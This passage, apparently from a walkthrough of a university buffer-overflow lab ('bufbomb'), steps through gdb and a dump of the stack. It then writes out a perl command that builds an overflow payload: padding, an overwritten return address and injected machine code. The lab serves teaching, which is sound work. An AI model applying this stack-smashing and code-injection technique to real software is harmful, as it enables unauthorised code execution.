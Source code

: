 **End of assembler dump.**

Continue with these command:

> (gdb) ni<br />
> 0x08048cef in ah_choo ()<br />
> (gdb) ni<br />
> 0x08048cf3 in ah_choo ()<br />
> (gdb) ni<br />
> 0x08048cf6 in ah_choo ()<br />
> (gdb) ni<br />
> 0x08048cfb in ah_choo ()<br />

After we give 4 **ni** instructions, use this command to see the contents of stack frame of function **ah_choo()**.

> (gdb) x/30x $esp<br />

The contents of stack | | | |
--- | --- | --- | --- |
0x55683638 <_reserved+1037880>:  |  0x55683650  |  0x00000000  |  0x55685ff0  |  0xf7e467d4
0x55683648 <_reserved+1037896>:  |  0xf7fba3cc  |  0x55683664  |  0x61616161  |  0x61616161
0x55683658 <_reserved+1037912>:  |  0x61616161  |  0x61616161  |  0x61616161  |  0x61616161
0x55683668 <_reserved+1037928>:  |  0x61616161  |  0x61616161  |  0x62626262  |  0x62626262
0x55683678 <_reserved+1037944>:  |  0x62626262  |  0x62626262  |  0x00626262  |  0x08048d0c
0x55683688 <_reserved+1037960>:  |  0x0000000f  |  0xf7fba000  |  0x0000000f  |  0x08048dcd
0x55683698 <_reserved+1037976>:  |  0xf7fbaac0  |  0x0000000a  |  0x0000000f  |  0xf7e12700
0x556836a8 <_reserved+1037992>:  |  0x55685ff0  |  0xf7ff0500  |              |

From the above stack's contents, we can see that one block above the block containing return address (0x08048d0c) is a block with address 0x55683688 and contains 0x0000000f. We'll change the value 0x08048d0c into 0x55683688 so that after function **ah_choo()** was finished in reading our 52 characters, the program will execute the instructions on a block at 0x55683688. The contents of that block is our code injection!

Quit from GDB, just remember the address of block (0x55683688) and type this command:

> * perl -e 'print "61 "x32, "62 "x20, "88 36 68 55 ", "c7 05 04 d1 04 08 24 d8 9e 1d c7 05 00 d1 04 08 ff ff ff ff 68 f3 8b 04 08 c3"' > hex0<br />
> * ./hex2raw < hex0 > raw0<br />

We can see that after our 52 characters, we inserted address 0x55683688 in the form of Little Endian. Now, type this command on GDB:

> gdb bufbomb<br />
> (gdb) b annyeong<br />
> Breakpoint 1 at 0x8048bf3<br />
> (gdb) run -u eksperimen < raw0<br />
> Userid: eksperimen<br />
> Cookie: 0x1d9ed824<br />
> Masukkan input:<br />
> Breakpoint 1, 0x08048bf3 in annyeong ()<br />
> (gdb) disas<br />

**Dump of assembler code for function annyeong:**
